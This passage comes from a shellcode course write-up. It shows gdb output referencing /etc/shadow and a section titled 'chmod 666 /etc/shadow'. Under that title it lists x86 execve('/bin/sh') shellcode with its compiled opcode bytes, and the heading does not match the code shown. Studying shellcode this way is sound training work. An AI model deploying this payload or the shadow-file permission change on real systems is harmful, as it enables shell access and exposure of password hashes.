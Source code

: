 ```nasm
fs             0x0	0
gs             0x0	0
(gdb) x/16bx 0xbffff700
0xbffff700:	0x2f	0x2f	0x65	0x74	0x63	0x2f	0x73	0x68
0xbffff708:	0x61	0x64	0x6f	0x77	0x00	0x00	0x00	0x00
(gdb)
```

After comparing the state of the general purpose registers and values on the stack in both the original shellcode and the polymorphic shellcode, it is evident that all replaced instructions are semantically equivalent and the functionality of the original shellcode is preserved.

In addition, the size of the original shellcode is 27 bytes. The size of the polymorphic shellcode is 40 bytes, meeting the size restrictions set by SecurityTube.

### Shellcode 3 - chmod 666 /etc/shadow
The author of the original shellcode is "kernel_panik". The code can be found <a href="http://shell-storm.org/shellcode/files/shellcode-752.php">here</a>.

#### Original Shellcode

```nasm
;Title: linux/x86 Shellcode execve ("/bin/sh") - 21 Bytes
;Date     : 10 Feb 2011
;Author   : kernel_panik
;Thanks   : cOokie, agix, antrhacks

global _start

section .text

_start:
 xor ecx, ecx
 mul ecx
 push ecx
 push 0x68732f2f   ;; hs//
 push 0x6e69622f   ;; nib/
 mov ebx, esp
 mov al, 11
 int 0x80
```

#### Compiling the Original Shellcode

```
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh execve-bin-sh-stack-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
[+] Size: 21 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```
